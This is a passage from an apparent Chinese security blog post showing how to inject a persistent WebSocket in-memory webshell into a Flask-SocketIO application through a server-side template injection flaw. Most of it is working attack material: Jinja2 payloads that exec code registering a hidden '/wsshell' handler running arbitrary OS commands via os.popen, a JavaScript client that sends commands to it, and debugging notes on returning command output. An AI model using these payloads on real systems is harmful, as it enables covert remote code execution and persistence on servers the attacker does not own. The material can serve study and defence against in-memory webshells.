 ## ws内存马实现
接下来实现一下上面的连接过程，场景是有一个 SSTI 漏洞。使用下面这个 Payload 来添加一个自定义的 websocket 事件处理函数，命名空间为`/wsshell`，事件名为`shell`，事件函数需要的参数上面也有提到：e为`request sid`，d为客户端发送的数据。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.extensions['socketio'].server.handlers['/wsshell'] = {'shell':lambda e,d: __import__('os').popen(d['cmd']).read()}
", 
{'app':url_for.__globals__['current_app']})
}}
```
客户端的实现
```javascript
var socket = io.connect('http://127.0.0.1:5000/wsshell');

function execCMD() {
  socket.emit('shell', { 'cmd': document.getElementById('cmdline').value});
}

// 接收消息事件
socket.on('message', function(data) {
  var p = document.createElement('p');
  p.innerHTML = data['msg'];
  document.getElementById('chat').appendChild(p);
});
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718024665322-65931378-8796-419e-ac78-6042a165a738.png#averageHue=%2312640e&clientId=u82fbda9c-3c32-4&from=paste&height=831&id=ue8c94317&originHeight=1039&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=109075&status=done&style=none&taskId=u280644be-73a7-4732-894a-1d91b2313d7&title=&width=1536)
成功发送了消息并执行了命令，但是服务端并没有返回数据。如果需要返回数据还得继续改造 Payload，那么就应该在匿名函数将命令执行结果作为参数传递给 `send`方法
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718025029234-7d8e64f8-5e18-46e9-8544-edc1081bc686.png#averageHue=%23292b30&clientId=u82fbda9c-3c32-4&from=paste&height=219&id=u35b70e3f&originHeight=274&originWidth=929&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=46912&status=done&style=none&taskId=u59daafb6-3a86-4f7e-ba47-04ad2802764&title=&width=743.2)
如果想要调用就得拿到这个对象，并不能通过单纯`import`调用，这个对象在这里：
```python
url_for.__globals__.current_app.extensions['socketio']
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718025196615-691d47ed-8bf4-4118-a1f6-3dcd0b87a01a.png#averageHue=%23eceff3&clientId=u82fbda9c-3c32-4&from=paste&height=401&id=u50cc07a8&originHeight=501&originWidth=1884&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=134699&status=done&style=none&taskId=u32b070b1-7814-45ae-a511-87c748d9111&title=&width=1507.2)
那么构造这样的 Payload
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.extensions['socketio'].server.handlers['/wsshell'] = {'shell': lambda e,d: app.extensions['socketio'].send(__import__('os').popen(d['cmd']).read())}
", 
{'app':url_for.__globals__['current_app']})
}}
```
注入成功，但是在连接的时候会报错显示不在上下文中，这里执行的`handler`函数就是 Payload 中的匿名函数。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718025419589-6301e8a7-c7f0-48fa-be99-59498693097e.png#averageHue=%23212227&clientId=u82fbda9c-3c32-4&from=paste&height=686&id=ub2003030&originHeight=857&originWidth=1381&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=147101&status=done&style=none&taskId=u04998476-1b9e-4e21-ad7e-75a9b2d2fae&title=&width=1104.8)
调用的地方是在`socketio.server.Server._trigger_event()`中，这里的全局变量里是没有 Flask 上下文的，但是我们又需要通过 flask 上下文的代理对象`current_app`来获取到`flask_socketio.SocketIO`来发送消息。
![](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718012411583-b098cc45-83da-41a7-a71f-c4a20a9b3bc5.png?x-oss-process=image%2Fformat%2Cwebp#averageHue=%23242830&from=url&id=jUG2b&originHeight=524&originWidth=1414&originalType=binary&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&title=)
那么正常的请求是怎么实现的呢，在上面的**ws连接过程中**也提到了，正常的请求在这一步并不是直接调用事件处理函数，而是先获取了 Flask 应用的上下文才去真正的调用事件处理函数。
> 但是需要注意的是这里并不是直接调用函数，在`@socketio.on`装饰器装饰事件处理函数的时候使用了Python functools包中的`@wraps(handler)`来对事件处理函数再次进行了装饰，这个也就是在上面调用`handler()`函数的时候调用的是下图中的`_handler()`
